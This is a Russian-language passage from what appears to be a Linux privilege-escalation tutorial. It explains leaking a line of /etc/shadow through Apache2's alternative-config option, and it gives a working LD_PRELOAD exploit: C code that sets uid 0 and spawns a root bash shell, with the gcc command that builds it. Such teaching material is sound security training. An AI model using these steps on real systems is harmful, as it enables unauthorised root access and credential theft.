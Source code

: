 Используйте функции приложения

Некоторые приложения не будут иметь известного эксплойта в этом контексте. Такое приложение, которое вы можете 
увидеть, — это сервер Apache2.

В этом случае мы можем использовать "хак" для утечки информации, используя функцию приложения. Как вы можете видеть 
ниже, Apache2 имеет опцию, которая поддерживает загрузку альтернативных файлов конфигурации ( -f: указать 
альтернативный ServerConfigFile).

Загрузка `/etc/shadow` файла с использованием этой опции приведет к появлению сообщения об ошибке, включающего первую 
строку файла `/etc/shadow`.

#### Используйте LD_PRELOAD

В некоторых системах вы можете увидеть параметр среды LD_PRELOAD.

LD_PRELOAD — это функция, которая позволяет любой программе использовать общие библиотеки. Эта запись в блоге даст 
вам представление о возможностях LD_PRELOAD. Если включена опция "env_keep", мы можем сгенерировать общую библиотеку,
которая будет загружена и выполнена до запуска программы. Обратите внимание, что опция LD_PRELOAD будет 
проигнорирована, если реальный идентификатор пользователя отличается от эффективного идентификатора пользователя.

Шаги этого вектора эскалации привилегий можно обобщить следующим образом:
- Проверьте наличие LD_PRELOAD (с опцией env_keep)
- Напишите простой код на языке C, скомпилированный как файл общего объекта (расширение .so)
- Запустите программу с правами sudo и опцией LD_PRELOAD, указывающей на наш файл .so

Код C просто создаст оболочку root и может быть записан следующим образом:
```commandline
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Мы можем сохранить этот код как shell.c и скомпилировать его с помощью gcc в общий объектный файл, используя 
следующие параметры: 

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

Теперь мы можем использовать этот файл общего объекта при запуске любой программы, которую наш пользователь может 
запустить с помощью sudo. В нашем случае можно использовать Apache2, find или почти любую из программ, которые мы 
можем запустить с помощью sudo.
